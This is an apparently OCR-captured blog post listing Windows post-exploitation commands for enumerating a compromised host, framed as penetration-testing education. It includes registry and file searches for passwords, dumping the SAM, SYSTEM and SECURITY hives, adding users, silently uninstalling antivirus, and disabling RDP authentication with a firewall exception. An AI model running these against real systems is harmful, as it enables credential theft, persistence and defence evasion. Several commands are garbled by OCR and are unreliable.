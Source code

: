 ```yaml
---
layout: post
published: true
title: Windows Post Exploitation 12.1
tags:
  - PWP
  - Intermediate
  - Windows Post Exploitation
comments: true
---
```

## Windows Post Enumeration

## Introduction

In this blog post, we will learn about manual post enumeration techniques to gather information about the compromised target in order to Escalate Privileges, Data Exfiltration, Persistent Access.




After compromising a device and having system-level access, Now we will gather more information about the target system to get the big scope and escalate our privileges.

The very first command to execute

To get system information
~~~
systeminfo
~~~

To get system information remotely
~~~
systeminfo /S <targetIp> /U <domain>\<user> /P <Password>
~~~

To list current user, sid, groups the current user is a member of and their sids as well as current privilege level.
~~~
whoami /all
~~~

To get OS Version
```
ver
```
To check file/folder permissions
```
cacls
icacls
```

To show processes and services in system.
~~~
tasklist /svc
~~~

To show all processes & DLLs
~~~
tasklist /m
~~~

To remote process listing
~~~
tasklist /S ip /v
~~~


To show all environmental variables.
```
set  
```
To look for specific USERDOMAIN, USERNAME, USERPROFILE, HOMEPATH, LOGONSERVER, COMPUTERNAME, APPDATA, and ALLUSERPROFILE, use `set` with them.
```
set USERPROFILE
```

To show services of system

```
sc query state=all
```
```
net start
```
To search the registry for passwords/or any string
```
reg query HKLM /f password /t REG SZ /s
```

To list all the currently scheduled tasks that your current user has access to see.
```
schtasks
```

To get more information about a service

~~~
sc getkeyname <service name>                   //It will give you a key
sc queryex <keyname>
~~~


To get all information about the workstation

```
net config workstation
```

To display hosts in the current domain
```
net view /domain
```

To list all users in the current domain
```
net user /domain
```

To add a user

```
net user username password /add
```

To add a user in Administrators
```
Add user to Administrators
```

To check network configurations of the system
```
ipconfig /all
```

To display local DNS Cache
```
ipconfig /displaydns
```
To know the listening ports of the system

```
netstat -ani findstr LISTENING
```

To list all open connections
```
netstat -ana
```

To prints the password policy for the domain
```
net accounts /domain
```
To print the members of Administrators local group
```
net localgroup administrators
```

To find active SMB session
```
net session I find I "\\"
```

To search files for the password string

```
findstr /si password' .txt I *.xmll *.xls
``` 

To display Domain and DC info
```
wmic ntdomain list
```
To search for services with unquoted paths to binary

```
wmic service get namee,displayname,pathnamee,startmode | findstr /i "auto" | findstr /i /v "C:\windows\\" | findstr /i /v """
```

For finding other networks and static routes that have been put in place
```
route print
```

To find the file match with the search string
```
dir \ /s /b | find /I “searchstring
```

Uninstalling Software “AntiVirus” (Non interactive)
```
wmic product get name /value (this gets software names)
wmic product where name="XXX" call uninstall /Interactive:Off (this uninstalls software)
```
To disable network level authentication, add firewall exceptiion
```
reg add "HKEY LOCAL_MACHINE\SYSTEM\CurentControlSet\Control \Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```
```
netsh firewall set service type = remotedesktop mode = enable
```

**WMI commands**

* wmic bios
* wmic qfe
* wmic qfe get hotfixid (This gets patches IDs)
* wmic startup
* wmic service
* wmic os
* wmic process get caption,executablepath,commandline
* wmic process call create “process_name” (executes a program)
* wmic process where name=”process_name” call terminate (terminates program)
* wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size,
* volumeserialnumber (hard drive information)
* wmic useraccount (usernames, sid, and various security related goodies)
* wmic useraccount get /ALL
* wmic share get /ALL (you can use ? for gets help ! )
* wmic startup list full (this can be a huge list!!!)
* wmic /node:"hostname" bios get serialnumber (this can be great for finding warranty info about the target)

**Reg Command**

* reg save HKLM\Security security.hive (Save security hive to a file)
* reg save HKLM\System system.hive (Save system hive to a file)
* reg save HKLM\SAM sam.hive (Save sam to a file)=
* reg add [\\TargetIPaddr\] [RegDomain][ \Key ]
* reg export [RegDomain]\[Key] [FileName]
* reg import [FileName ]
* reg query [\\TargetIPaddr\] [RegDomain]\[ Key ] /v [Valuename!] (you can to add /s for recurse all values )


## Conclusion

**_We have discussed some commands to gather information about the compromised target and the techniques to post emumeration_**
























